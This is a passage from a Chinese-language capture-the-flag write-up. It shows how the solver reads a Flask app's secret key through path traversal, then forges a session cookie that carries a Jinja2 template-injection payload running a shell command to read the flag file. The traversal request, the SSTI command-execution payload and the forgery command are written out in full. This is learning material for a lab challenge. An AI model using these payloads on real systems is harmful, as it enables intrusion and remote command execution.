 **加密payload，写入session**：

还有一个问题是这个payload无法直接写入cookie中的session，因为session还用了key.py进行加密。

所以查看key.py，得到加密的密钥：

```
article?name=../../../proc/self/cwd/key.py
```

![image-20220812151727414](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220812151727414.png)

然后使用工具 **flask_session_cookie_manager3**：

https://codeload.github.com/noraj/flask-session-cookie-manager/zip/refs/heads/master

```
flask_session_cookie_manager3.py encode -s "Drmhze6EPcv0fN_81Bj-nA" -t "{'n1code': '{{\'\'.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__[\'os\'].popen(\'cat flag.py\').read()}}'}"
```

加密结果为

```
 .eJwdikEKgCAQAL8SXlYvQl2CviKxbGoRmCtZhxD_nnUbZqaI2Ft2XkyiFACNaAPljNjoOBnRDHPDfC-_961IZcb-k3vcr3_cAi8UWjLAGWadOPkowdLVrYE2nR5Q-vTkpKpV1BcrHygP.YZuIBg.eOXIyEYlDww9MHN2rJZpk13froc
```

那么这个就是我们的身份码n1code+命令执行语句，作为session被模板渲染后执行，就能读取flag文件

#### 执行攻击，拿到flag

最后使用burp开始抓包，填入在cookie的session字段填入构造的payload：

![image-20220812152116080](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220812152116080.png)

从回传的网页中得到flag。

#### 总结步骤(思路)

1. 利用linux下 /porc目录下文件作用查看当前运行进程，得到server.py

2. 分析server.py得知存在 key.py 和 flag.py（不可查取） ，且存在SSTI模板注入漏洞

3. 构造模板注入语句，并使用flask_session_cookie_manager3.py脚本进行密钥加密

4. burp改包实现session伪造，命令执行。得到flag。



**关于SSTI模板注入：**

http://elssm.top/2021/11/29/SSTI%E6%A8%A1%E7%89%88%E6%B3%A8%E5%85%A5/

https://www.freebuf.com/column/187845.html

**关于cookie、session、token：**

https://blog.csdn.net/qq_40925189/article/details/107030620